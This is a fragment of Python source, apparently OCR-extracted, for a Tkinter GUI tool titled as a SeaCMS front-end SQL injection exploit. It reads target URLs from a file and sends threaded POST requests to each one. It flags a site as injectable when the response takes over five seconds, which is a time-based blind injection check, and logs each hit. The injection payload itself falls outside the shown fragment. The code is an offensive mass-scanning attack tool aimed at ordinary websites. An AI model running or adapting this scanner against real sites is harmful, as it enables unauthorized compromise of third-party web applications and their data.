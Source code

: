 ```
        &#34;color&#34;: &#34;1&#34;
    }
    headers = {
        &#34;User-Agent&#34;: &#34;Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36&#34;,
        &#34;Content-Type&#34;: &#34;application/x-www-form-urlencoded&#34;
    }
    start_time = time.time()

    try:
        response = requests.post(target, data=data, headers=headers, timeout=10)
        elapsed_time = time.time() - start_time

        if elapsed_time > 5:
            output_text.insert(END, f&#34;【*】找到SQL注入在 {target} (响应时间: {elapsed_time:.2f} 秒)\n&#34;)
            output_text.see(END)
            with open(&#34;找到sql注入的url.txt&#34;, 'a') as f:
                f.write(url + &#34;\n&#34;)
        else:
            output_text.insert(END, f&#34;【×】没有SQL注入在 {target} (响应时间: {elapsed_time:.2f} 秒)\n&#34;)
            output_text.see(END)
    except requests.exceptions.RequestException as err:
        output_text.insert(END, f&#34;【×】目标请求失败：{target}，错误内容：{err}\n&#34;)
        output_text.see(END)


# 获取URL地址的生成器
def get_urls():
    with open('url.txt', 'r') as file:
        for line in file.readlines():
            yield line.strip()


# GUI界面
def sql_injection_gui():
    root = tk.Tk()
    root.geometry(&#34;910x450&#34;)
    root.title(&#34;seacms前台sql注入&#34;)
    root.resizable(0, 0)

    global output_text
    output_text= scrolledtext.ScrolledText(root, width=123, height=25)
    output_text.grid(row=0, column=0, padx=10, pady=10)

    urls = get_urls()
    max_threads = 30  # 并发线程数
    executor = ThreadPoolExecutor(max_workers=max_threads)

    for url in urls:
        future = executor.submit(sql_injection_exp, url)

    root.mainloop()


```
